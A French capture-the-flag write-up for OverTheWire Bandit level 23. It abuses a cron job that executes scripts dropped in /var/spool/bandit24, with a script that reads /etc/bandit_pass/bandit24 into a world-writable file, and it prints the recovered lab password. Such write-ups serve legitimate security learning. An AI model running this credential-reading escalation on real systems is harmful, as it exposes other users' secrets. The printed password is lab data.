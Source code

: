 ## Over-The-Wire -writeup-
### Bandit23 (bandit23@bandit.labs.overthewire.org)

---
#### Etape 1

Une tache est encore automatisée par **conf**, dans `/etc/cron.d/`. Suprise, le fichier cron s'appelle: **cronjob_bandit24**. Regardons son contenu:

```console
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Il exécute chaque minute le script `/usr/bin/cronjob_bandit24.sh`. Alors examinons le aussi !

```console
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```

Le script va dans le répertoire `/var/spool/bandit24` car la variable `myname` prend la valeur `bandit24`.  
*Car la tâche **cron** est éxécutée par *bandit24*, voir plus haut !*

Ensuite, comme le dit la ligne *echo*, le script exécute chaque scripts dans le dossier en question, puis les supprimes.

---
#### Etape 2

Il va falloit créer un script dans `/var/spool/bandit24`, qui du coup sera exécuté avec les privilèges de **bandit24**, nous permettant de récupérer son mot de passe.  
On se place dans un dossier temporaire, et on **crée notre script** ainsi qu'un fichier vide qui recevra le mot de passe:
`touch script.sh`
`touch outputPass`

---
#### Etape 3

Création du script:

```console
bandit23@bandit:/tmp/visages$ printf '#!/bin/bash\n\ncat /etc/bandit_pass/bandit24 >> /tmp/visages/output' > script.sh
```

*NB: La fin de la commande `> script.sh` insère la commande de *echo* dans le fichier `script.sh`
Voila à quoi le script ressemble *(puisque tout est sur une ligne, et qu'on a rajouté des **\n** qui saute des lignes)*:
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/visages/output
```

La tâche automatique va exécuter tout les scripts sous `var/spool/bandit24` en tant que **bandit24**.  
Notre script demandera alors d'afficher le mot de passe de **bandit24**, et de le rediriger dans notre fichier /tmp/visages/**output** !

---
#### Etape 4

Maintenant il faut **rendre notre script, et notre fichier output exécutables !**. Sinon **bandit24** ne pourra pas exécuter / écrire dans nos fihchiers.  
Pour cela, on utilise `chmod`:

```console
bandit23@bandit:/tmp/visages$ chmod 777 script.sh 
bandit23@bandit:/tmp/visages$ chmod 666 output
```

---
#### Etape 5

Copier notre script dans `/var/spool/bandit24/` pour qu'il soit exécuté.
> bandit23@bandit:/tmp/visages$ cp script.sh /var/spool/bandit24/

On attend moins d'une minute, et tada !

```console
bandit23@bandit:/tmp/visages$ cat output 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

---
Mot de passe: **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**
